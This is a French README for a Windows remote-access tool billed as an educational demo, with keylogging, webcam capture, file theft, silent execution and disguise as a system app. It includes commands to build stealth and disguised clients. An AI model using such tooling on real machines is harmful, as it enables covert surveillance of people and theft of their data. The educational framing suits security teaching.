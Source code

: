 # Projet de Démonstration RAT Windows

Un outil d'administration à distance (RAT) complet conçu pour l'éducation en cybersécurité et les démonstrations en classe.

## 🎯 Aperçu du projet

Ce projet est un outil d'administration à distance complet, comprenant des composants serveur, client et interface Web, spécialement conçu pour l'enseignement de la cybersécurité et les démonstrations d'attaque-défense.

## ⭐ Fonctionnalités principales

### 🖥️ Fonctionnalités RAT de base
- **Capture d'écran à distance** : Capture en temps réel de l'écran de la machine cible
- **Navigation de fichiers** : Navigation et manipulation du système de fichiers à distance
- **Informations système** : Obtention des informations de base de la machine cible
- **Messages popup** : Affichage de boîtes de message sur la machine cible

### 🔍 Fonctionnalités avancées
- **Surveillance du clavier** : Surveillance et enregistrement en temps réel des saisies clavier
- **Prise de photos** : Activation de la caméra pour prendre des photos
- **Exécution silencieuse** : Fonctionnement discret sans fenêtre de console
- **Déguisement d'application** : Déguisement en applications système pour améliorer la discrétion

### 🌐 Interface Web de gestion
- **Interface moderne** : Interface responsive Bootstrap
- **Surveillance en temps réel** : Mises à jour d'état en temps réel via WebSocket
- **Gestion visuelle** : Gestion graphique des clients
- **Contrôle multifonction** : Intégration de toutes les opérations de fonctionnalités RAT

## 📁 Structure du projet

```
RAT-Project/
├── Server/                     # Côté serveur
│   ├── Server.py              # Programme serveur principal
│   └── protocol.py            # Définition du protocole de communication
├── Client/                     # Côté client
│   ├── Client.py              # Client standard
│   ├── Client_Silent.py       # Version client silencieuse
│   └── modules/               # Modules de fonctionnalités
│       ├── screenshot.py      # Fonctionnalité de capture d'écran
│       ├── file_browser.py    # Navigation de fichiers
│       ├── keylogger.py       # Surveillance du clavier
│       ├── photo.py           # Prise de photos
│       └── popup.py           # Messages popup
├── web_interface/             # Interface Web de gestion
│   ├── app.py                 # Application Flask
│   ├── static/                # Ressources statiques
│   └── templates/             # Modèles HTML
├── build/                     # Configuration de compilation
│   ├── *.spec                 # Configuration PyInstaller
│   └── *.bat                  # Scripts de compilation
├── dist/                      # Sortie de compilation
└── docs/                      # Répertoire de documentation
```

## 🚀 Démarrage rapide

### 1. Préparation de l'environnement

```bash
# Exécuter le script de configuration de l'environnement
setup.bat

# Ou installer manuellement les dépendances
venv\Scripts\activate
pip install -r requirements.txt
```

### 2. Modes d'exécution

#### Mode ligne de commande
```bash
# Démarrer le serveur
venv\Scripts\activate
python Server/Server.py --port 4444

# Démarrer le client
python Client/Client.py --host 127.0.0.1 --port 4444

# Démarrer l'interface opérateur
python rat_operator/rat_operator.py
```

#### Mode interface Web (recommandé)
```bash
# Activer l'environnement virtuel
venv\Scripts\activate

# Démarrer l'interface Web de gestion
cd web_interface
python app.py

# Ouvrir dans le navigateur
http://localhost:5000
```

### 3. Compiler les fichiers exécutables

```bash
# Compiler tous les composants
cd build
build_all.bat

# Ou compiler individuellement
build_client.bat        # Compiler le client
pyinstaller server.spec # Compiler le serveur
```

## 🛠️ Instructions d'utilisation détaillées

### Utilisation de l'interface Web

1. **Démarrer le serveur** : Démarrer le serveur RAT intégré dans l'interface Web
2. **Connecter le client** : Exécuter le client pour se connecter au serveur
3. **Surveiller l'état** : Voir en temps réel l'état des clients connectés
4. **Exécuter les opérations** :
   - Cliquer sur le bouton "Capture d'écran" pour capturer l'écran
   - Utiliser "Surveillance du clavier" pour enregistrer les saisies clavier
   - Envoyer des "Messages popup" à la machine cible
   - Naviguer et télécharger des fichiers

### Utilisation de la version silencieuse

```bash
# Compiler la version silencieuse
cd build
pyinstaller client.spec

# Exécution silencieuse (sans fenêtre)
dist\client.exe --host IP_serveur --port 4444
```

### Compilation de la version déguisée

```bash
# Compiler la version déguisée
pyinstaller client_disguised.spec

# Le fichier généré se déguisera en application système
```

## 🔧 Configuration avancée

### Configuration personnalisée du serveur

```python
# Modifier dans Server.py
DEFAULT_PORT = 4444
DEFAULT_HOST = "0.0.0.0"
MAX_CLIENTS = 100
```

### Ajouter de nouveaux modules de fonctionnalités

1. Créer un nouveau module dans `Client/modules/`
2. Ajouter une nouvelle commande dans `protocol.py`
3. Enregistrer un nouveau gestionnaire dans `Client.py`
4. Mettre à jour l'interface Web pour ajouter la nouvelle fonctionnalité

## 📊 Architecture système

```
┌─────────────────┐    HTTP/WebSocket    ┌─────────────────┐
│   Interface Web │ ◄──────────────────► │  Application    │
│                 │                      │    Flask        │
└─────────────────┘                      └─────────┬───────┘
                                                   │
                                                   │ Intégration
                                                   │ intégrée
                                                   ▼
┌─────────────────┐    JSON/TCP         ┌─────────────────┐
│   CLI Opérateur │ ◄─────────────────► │  Serveur RAT    │
└─────────────────┘                     └─────────┬───────┘
                                                  │
                                                  │ JSON/TCP
                                                  ▼
                                        ┌─────────────────┐
                                        │   Agent Client  │
                                        │  ┌─────────────┐ │
                                        │  │Module       │ │
                                        │  │capture      │ │
                                        │  │d'écran      │ │
                                        │  │             │ │
                                        │  │Surveillance │ │
                                        │  │clavier      │ │
                                        │  │             │ │
                                        │  │Navigation   │ │
                                        │  │fichiers     │ │
                                        │  │             │ │
                                        │  │Prise de     │ │
                                        │  │photos       │ │
                                        │  └─────────────┘ │
                                        └─────────────────┘
```

